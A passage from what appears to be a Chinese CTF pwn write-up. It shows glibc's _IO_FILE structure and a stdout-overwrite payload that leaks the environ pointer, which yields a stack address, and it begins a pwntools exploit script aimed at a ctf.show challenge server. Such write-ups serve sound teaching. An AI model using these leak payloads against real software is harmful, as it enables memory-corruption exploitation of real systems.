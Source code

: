 ```c
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```
我们将stdout修改成这样
```python
payload2 = p64(0xFBAD1800)+p64(0)*3+p64(environ)+p64(environ+8)
```
0xFBAD1800是_IO_MAGIC，由libc定义，大部分都是这个值
我们将_IO_write_base修改为environ，将_IO_write_ptr改为environ+8
之后便会泄露environ的值

### environ
environ是个由libc定义的全局变量，定义为`char **environ`，用于存放程序的环境变量
而它存放的指针通常是栈上的，所以可以利用它来泄露栈上的值

### exp
```python
from pwn import *
import heybro_pb2

#p = process("./pwn")
p = remote("pwn.challenge.ctf.show",28127)
elf = ELF("./pwn")
remote_libc = ELF("./libc.so.6")
local_libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = remote_libc

context.log_level = 'debug'
#context.terminal = ['tmux','splitw','-h']

def create(idx,content):
    data = heybro_pb2.heybro()
    data.whattodo = 1
    data.whatcon = content
```